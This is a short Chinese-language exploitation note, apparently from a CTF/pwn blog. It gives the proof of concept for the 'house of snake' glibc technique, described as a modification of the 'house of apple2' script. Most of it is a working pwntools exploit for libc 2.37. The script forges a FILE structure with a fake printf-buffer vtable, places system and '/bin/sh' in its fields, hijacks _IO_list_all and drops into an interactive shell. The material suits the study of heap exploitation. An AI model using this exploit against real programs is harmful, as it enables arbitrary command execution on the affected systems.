 将house of apple2的脚本中由`------------change------------`包裹的代码更换为以下内容，即为house of snake的poc：
```c
void fake()
{
    void *ptr;
    ptr=malloc(0x200);
    printf("ptr: %p\n", ptr);
}
```
```py
#https://github.com/RoderickChan/pwncli/blob/main/pwncli/utils/io_file.py#L379
def payload_replace(payload: str or bytes, rpdict:dict=None, filler="\x00"):
    assert isinstance(payload, (str, bytes, int)), "wrong payload!"
    assert context.bits in (32, 64), "wrong context.bits!"
    assert len(filler) == 1, "wrong filler!"
    output = list(payload) if isinstance(payload, bytes) else list(payload.encode('latin-1'))
    if isinstance(filler, str):
        filler = filler.encode('latin-1')
    for off, data in rpdict.items():
        assert isinstance(off, int), "wrong off in rpdict!"
        assert isinstance(data, (int, bytes, str)), "wrong data: {}!".format(data)
        if isinstance(data, str):
            data = data.encode('latin-1')
        elif isinstance(data, int):
            data = pack(data, word_size=context.bits, endianness=context.endian)
        distance = len(output) - len(data)
        if off > distance:
            output.extend([int.from_bytes(filler, "little")]*(off - distance))
        for i, d in enumerate(data):
            output[off+i] = d
    return bytes(output)
ptr = int(rcu('ptr: ','\n'),16)
libc.address = int(rcu('leak: ','\n'),16)-libc.sym['_IO_2_1_stdout_']
fp = FileStructure(0)
fake_printf_buffer = ptr+0x58
fp.vtable = 0x1c8d60  + libc.address #&_IO_printf_buffer_as_file_jumps
fp._IO_write_ptr = fake_printf_buffer+ 0x30 + 1
fp._IO_write_end = fake_printf_buffer + 0x30 + 1
fp._IO_write_base = 0x0
fp._IO_backup_base = 0xff
fp._IO_buf_base = libc.sym['system']
fp._IO_save_base = ptr + 0xa0
fp._wide_data = 0x68732f6e69622f
fp = payload_replace(bytes(fp),{
    0x58:0,
    0x60:0,
    0x68:fake_printf_buffer + 0x30 + 1,
    0x70:0,
    0x78:11,
    0x80:ptr
})
pd = flat(
    {
      0x0:bytes(fp),
      0xe0:fake_printf_buffer,
    }
)
write(ptr,pd)
write(libc.sym["_IO_list_all"],p64(ptr))
sla('choice> ', '2')
p.interactive()
```
测试时所使用的libc版本：2.37